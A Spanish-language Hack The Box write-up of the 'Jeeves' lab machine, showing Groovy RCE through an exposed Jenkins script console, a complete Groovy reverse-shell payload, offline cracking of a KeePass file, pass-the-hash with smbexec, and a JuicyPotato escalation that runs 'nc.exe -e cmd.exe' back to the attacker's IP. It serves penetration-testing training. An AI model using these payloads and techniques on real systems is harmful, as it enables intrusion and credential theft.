










## Info


*Jeeves - HTB (Medium)*

Jeeves es una máquina de dificultad *Medium* de **Hack the Box**.

> La **Cyber Kill Chain** comienza con el descubrimiento de una instancia de Jenkins sin autenticación, expuesta en un directorio oculto del puerto 50000. Desde la consola de scripts de Jenkins se abusa de `Apache Groovy` para lograr **RCE** y obtener una shell con el contexto del usuario `kohsuke`. Durante la enumeración post-explotación se localiza, en el perfil del usuario, una base de datos de **KeePassXC** (`CEH.kdbx`) que, tras crackearse offline con `john`, revela el **NT hash** del usuario `Administrator`. Con esas credenciales se realiza un **Pass-the-Hash** vía `smbexec` para obtener una sesión como `NT AUTHORITY\SYSTEM`. De forma alternativa, también se abusa de `SeImpersonatePrivilege` junto con `JuicyPotato` para escalar privilegios localmente sin depender de las credenciales recuperadas. Finalmente, la flag de `root.txt` se encuentra oculta dentro de un **Alternate Data Stream (ADS)** de un archivo señuelo.
{: .prompt-info }

## Nmap

### Escaneo de puertos

Comienzo realizando un escaneo completo de puertos TCP para identificar los servicios expuestos por el objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.129.108.3 -oG allPorts

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

### Parseo de puertos

Para facilitar el siguiente escaneo, extraigo los puertos identificados del archivo grepable `allPorts` con una **RegEx** y los almaceno en la variable `$ports`.

```shell
ports=$(cat allPorts | grep -oP '\d{1,5}(?=/open)' | xargs | tr ' ' ',')
```

> También puede utilizarse la función [extractPorts](https://pastebin.com/xNaZxRGA), añadiéndola previamente al archivo **.bashrc** o **.zshrc**.
{: .prompt-tip }

### Detección de versiones

```shell
nmap -sCV -p$ports 10.129.108.3 -oN version

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-24T00:21:27
|_  start_date: 2026-11-23T23:50:44
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

El fingerprinting indica que la máquina objetivo es Windows, y llama la atención tener dos stacks web distintos (IIS en el 80 y Jetty en el 50000) sobre el mismo host. Empiezo la enumeración por el puerto más convencional.

## HTTP (80)

Con `whatweb` identifico las tecnologías usadas.

```shell
whatweb http://10.129.108.3

http://10.129.108.3 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.108.3], Microsoft-IIS[10.0], Title[Ask Jeeves]
```

Inspecciono el puerto 80, donde se presenta la clásica interfaz de búsqueda de **Ask Jeeves** sobre IIS.


*Interfaz de búsqueda de Ask Jeeves*

Se presenta un campo donde se puede realizar una búsqueda; tras rellenarlo se produce un error y redirige hacia `/error.html?`, o más bien hacia una imagen de error alojada en `http://10.129.108.3/jeeves.PNG`.



*Formulario de búsqueda e imagen de error resultante*

### Fuzzing (failed)

- Inicio con fuzzing de directorios, sin embargo no encuentro nada interesante.
- También pruebo fuzzing de archivos, con el mismo resultado.

Descarto el puerto 80 como vector de entrada y continúo por el 50000, que ya me llamó la atención en el nmap por correr sobre Jetty.

## HTTP (50000)

### WebStack

```shell
whatweb http://10.129.108.3:50000

http://10.129.108.3:50000 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], IP[10.129.108.3], Jetty[9.4.z-SNAPSHOT], PoweredBy[Jetty://], Title[Error 404 Not Found]
```

Por otro lado, `wappalyzer` reporta lo siguiente.

```text
Web Servers:            Jetty 9.4
Programming languages:  Java
```

El 404 por defecto en la raíz no significa que no haya nada detrás; Jetty suele usarse como contenedor de aplicaciones Java, así que reviso si hay rutas ocultas.

### Fuzzing de directorios

```shell
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -u http://10.129.108.3:50000/FUZZ -t 100 -mc all -fc 404

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.108.3:50000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 169ms]
```

Esto revela el directorio `askjeeves`; al acceder a él desde el navegador, se muestra la siguiente interfaz.


*Dashboard de Jenkins en /askjeeves/*

En la parte inferior derecha se observa la versión de Jenkins, lo cual también confirma `whatweb`.

```shell
whatweb http://10.129.108.3:50000/askjeeves/

http://10.129.108.3:50000/askjeeves/ [200 OK] Cookies[JSESSIONID.09f3f769], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(9.4.z-SNAPSHOT)], HttpOnly[JSESSIONID.09f3f769], IP[10.129.108.3], Jenkins[2.87], Jetty[9.4.z-SNAPSHOT], OpenSearch[/askjeeves/opensearch.xml], Prototype, Script[text/javascript], Title[Dashboard [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Wappalyzer reporta además el lenguaje de programación `Java`, coherente con un entorno Jenkins/Jetty.

```text
Programming languages:  Java
CI:                     Jenkins 2.87
Web Servers:            Jetty 9.4
```

### Script Console 

> Antes de buscar un exploit específico para la versión de Jenkins, siempre reviso primero el propio dashboard: **campos que permitan subir recursos (php, war, mp3, png, etc.), opciones que permitan apuntar a un servidor controlado por mí (vía HTTP o LDAP), credenciales o usuarios expuestos, o cualquier funcionalidad que permita ejecutar comandos del sistema y derive en RCE**.
{: .prompt-tip }

> La [documentación oficial de Jenkins](https://www.jenkins.io/doc/book/managing/script-console/) advierte explícitamente que otorgar acceso a la **consola de scripts** (Script Console) a un usuario equivale, en la práctica, a darle privilegios de administrador total sobre la instancia: desde ahí se pueden ejecutar scripts arbitrarios de **Apache Groovy** directamente en el runtime del controlador de Jenkins.
{: .prompt-danger }

Dado el acceso anónimo al dashboard, lo primero que pruebo es si esta consola también está expuesta sin autenticación.

Después de inspeccionar por un buen rato, doy con `http://10.129.108.3:50000/askjeeves/script`, una consola que se asemeja a una shell.


*Consola de scripts de Jenkins*

Esta consola indica que, para ejecutar un comando en el servidor, se debe seguir la sintaxis del lenguaje [Apache Groovy](https://www.groovy-lang.org/). A modo de ejemplo, se muestra la siguiente sintaxis.

```shell
println(Jenkins.instance.pluginManager.plugins)
```

### RCE 

Al intentar ejecutar algo como `println("whoami")`, solo se imprime la cadena `whoami`; es decir, no se está ejecutando como un comando del sistema, sino simplemente interpretándose como string.


*Salida al ejecutar `println("whoami")` en la consola de Groovy*

Realizo una búsqueda en Google,


*Búsqueda sobre ejecución de comandos del sistema en Groovy*

la cual me lleva al siguiente post de [Stack Overflow](https://stackoverflow.com/questions/159148/groovy-executing-shell-commands), donde se muestra que, utilizando la siguiente sintaxis, es posible ejecutar comandos del sistema operativo directamente desde Groovy.

```shell
println "ls".execute().text
```

Intentaré ejecutar `whoami` ahora.


*Salida mostrando al usuario de la máquina*

### Reverse shell

Como se observa, se logra RCE. El siguiente paso es obtener una shell. Visito el cheatsheet de reverse shells de [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy), donde obtengo el siguiente payload para Groovy.

```shell
String host="<YOUR IP>";
int port=<YOUR PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Lo único que debo hacer es reemplazar las dos primeras variables, indicando mi IP y el puerto en el que estaré en escucha con netcat, quedando de la siguiente forma.

Abro un puerto con `nc`, pego el payload en la consola de Groovy, luego click en `Run` y obtengo una shell bajo el contexto del usuario `kohsuke`, como se muestra a continuación.


*Reverse shell obtenida tras ejecutar el payload*

## user.txt

Puedo obtener `user.txt`.

```powershell
type C:\Users\kohsuke\Desktop\user.txt

e3232272596fb47950d59c4cf1e7066a
```

## Reconocimiento interno

Entraré al directorio del usuario `kohsuke` para continuar la enumeración, ya que es el único perfil de usuario adicional al de Administrator presente en el sistema.

Listaré todos los archivos.

```powershell
tree /f /a

Folder PATH listing
Volume serial number is 00000200 71A1:6FA1
C:.
+---.groovy
|   \---grapes
+---Contacts
+---Desktop
|       user.txt
|       
+---Documents
|       CEH.kdbx
|       
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       OneDrive.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
+---Searches
|       winrt--{S-1-5-21-2851396806-8246019-2289784878-1001}-.searchconnector-ms
|       
\---Videos
```
## Transferencia de archivos

Lo más relevante de este listado es el archivo `CEH.kdbx`, dentro de `Documents`. Transferiré este archivo mediante un servidor SMB.

```shell
smbserver.py smbFolder $(pwd) -smb2support

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
```

Desde la sesión de `kohsuke`.

```powershell
copy Documents\CEH* \\10.10.17.57\smbFolder

Documents\CEH.kdbx
        1 file(s) copied.
```

## Archivos .kdbx

> Una extensión `.kdbx` corresponde al formato de base de datos de **KeePass/KeePassXC**. Según la [documentación oficial de KeePass](https://keepass.info/help/kb/kdbx.html), este formato **cifra toda la base de datos (no solo las contraseñas, también usuarios, URLs y notas)** usando algoritmos como AES-256, ChaCha20 o Twofish, **derivando la clave de cifrado a partir de la contraseña maestra**. Es decir, sin la contraseña maestra, el contenido es inaccesible y debe atacarse offline.
{: .prompt-info }

Intentaré abrir el archivo para confirmar el tipo.

```shell
file CEH.kdbx
CEH.kdbx: Keepass password database 2.x KDBX
```
```shell
sudo apt install keepassxc -y
keepassxc CEH.kdbx
```

Me muestra lo siguiente.


*Base de datos de KeePassXC protegida por contraseña*

## Recuperando la master key

En vista de que no conozco la contraseña, usaré `keepass2john` para obtener el hash con el que está protegido el archivo.

```shell
keepass2john CEH.kdbx | tee hash

CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Con este hash en mano, intentaré crackearlo con `john`.

```shell
john --format=KeePass -w=/usr/share/wordlists/rockyou_utf8.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 256/256 AVX2])
Cost 1 (t (rounds)) is 6000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Failed to use huge pages (not pre-allocated via sysctl? that's fine)
moonshine1       (CEH)     
1g 0:00:00:01 DONE (2026-11-23 21:16) 0.8696g/s 47805p/s 47805c/s 47805C/s morochita..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

La contraseña para acceder a la base de datos es `moonshine1`; en consecuencia, abro nuevamente el archivo y propociono la contraseña.


*Base de datos de KeePassXC desbloqueada*

La primera nota contiene un NT hash, el cual probaré contra el usuario `Administrator`.

## PrivEsc (Method 1) 

```shell
nxc smb 10.129.108.3 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00

SMB         10.129.108.3    445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.108.3    445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Las credenciales son válidas. Dado que SMB está activo, puedo optar por `psexec`, `wmiexec` o `smbexec` para obtener ejecución de comandos.

```shell
smbexec.py Administrator@10.129.108.3 -hashes :e0fb1fb85756c24235ff238cbe81fe00

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## root.txt

Finalmente, intento obtener `root.txt`.

```powershell
type C:\Users\Administrator\Desktop\root.txt

The system cannot find the file specified.
```

Listaré el contenido de este directorio.

```powershell
dir C:\Users\Administrator\Desktop

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,622,304,256 bytes free
```

Su contenido es el siguiente.

```powershell
type C:\Users\Administrator\Desktop\hm.txt

The flag is elsewhere.  Look deeper.
```

Antes de continuar buscando de forma recursiva, recuerdo un concepto que aprendí durante mi preparación para el `eJPTv2`.

### Alternate Data Streams (ADS)

> El [artículo de IBM Developer](https://developer.ibm.com/articles/alternate-data-streams/) explica que los **Alternate Data Streams (ADS)** son una característica del sistema de archivos **NTFS**, diseñada originalmente para almacenar metadatos y facilitar la compatibilidad con sistemas como HFS (Hierarchical File System) de MacOS. Cualquier archivo en NTFS tiene, además de su **data stream** por defecto (el contenido visible), la posibilidad de **contener flujos adicionales que NO se muestran en el Explorador de Windows ni alteran el tamaño aparente del archivo**.
{: .prompt-info }

Debido a que **NO son visibles** con `dir` ni en el explorador de archivos, los ADS son usados habitualmente para:
- Ocultar archivos maliciosos,
- herramientas de ataque o
- puertas traseras (backdoors),

Teniendo como fin evadir antivirus basados en firmas (como Windows Defender) y herramientas de análisis estático.

> Puedes encontrar más información en: [Hacking Articles](https://www.hackingarticles.in/defense-evasion-alternate-data-streams/), [Malwarebytes](https://www.malwarebytes.com/blog/101/2015/07/introduction-to-alternate-data-streams) y en [MITRE ATT&CK](https://attack.mitre.org/techniques/T1564/004/).
{: .prompt-info }

Con este concepto en mente, voy al directorio de `Administrator` y listo su contenido oculto.

```powershell
dir /r /s hm.txt

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

12/24/2017  02:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
               1 File(s)             36 bytes

     Total Files Listed:
               1 File(s)             36 bytes
               0 Dir(s)   2,621,308,928 bytes free
```

Como se observa, `hm.txt` tiene oculto, dentro de su data stream, el archivo `root.txt`. Solo queda recuperar su contenido.

```powershell
more < hm.txt:root.txt

afbc5bd4b615a60648cec41c6ac92530
```

También es posible obtenerlo con PowerShell.

```powershell
powershell -c "Get-Item .\hm.txt -Stream *"


   FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length
------                   ------
:$DATA                       36
root.txt                     34
```

```powershell
powershell -c "Get-Content .\hm.txt -Stream root.txt"

afbc5bd4b615a60648cec41c6ac92530
```

## PrivEsc (Method 2)

Como ruta alternativa para llegar a `NT AUTHORITY\SYSTEM` sin depender de las credenciales recuperadas del KeePass, reviso los privilegios del token del usuario actual (la sesión obtenida directamente vía Jenkins).

```shell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

### Abusando de SeImpersonatePrivilege

> Tengo habilitado `SeImpersonatePrivilege`. El [MITRE ATT&CK T1134.001](https://attack.mitre.org/techniques/T1134/001/) documenta la técnica de **Token Impersonation/Theft**: cuando una cuenta de servicio tiene este privilegio, puede suplantar el token de otro proceso que se autentique contra ella, lo cual es la base de toda la familia de exploits **Potato** (RottenPotato, JuicyPotato, PrintSpoofer, RoguePotato, etc.) para escalar de cuenta de servicio a `NT AUTHORITY\SYSTEM`. Privilegio que también se presentó en la máquina [Chimichurri de THL](https://f4dee-backup.github.io/chimichurri_thl/#enumeraci%C3%B3n-de-privilegios)
{: .prompt-info }

Dado que la versión del sistema corresponde a un Windows 10 antiguo, opto primero por **JuicyPotato**, una de las variantes más estables para este tipo de builds.

Antes de continuar, creo un directorio en `C:\Windows\Temp` y transfiero los binarios necesarios: [JuicyPotato](https://github.com/ohpe/juicy-potato) y [netcat](https://eternallybored.org/misc/netcat/), aprovechando el servidor SMB abierto.

```shell
smbserver.py smbFolder $(pwd) -smb2support

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies
```

```powershell
copy \\10.10.17.57\smbFolder\nc64.exe .\nc.exe
        1 file(s) copied.

copy \\10.10.17.57\smbFolder\JuicyPotato.exe .\jp.exe
        1 file(s) copied.
```

Me pongo en escucha con `nc` por el puerto 9001 y ejecuto `jp.exe`.

```powershell
.\jp.exe -l 1337 -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.17.57 9001"

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Después de un momento obtengo una shell con privilegios máximos.

```shell
rlwrap -cAr nc -lnvp 9001

listening on [any] 9001 ...
connect to [10.10.17.57] from (UNKNOWN) [10.129.108.3] 49716
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Por esta segunda vía confirmo lo mismo que ya había obtenido con el hash de `Administrator`: control total del sistema, pero sin depender en ningún momento de la contraseña recuperada del KeePass.
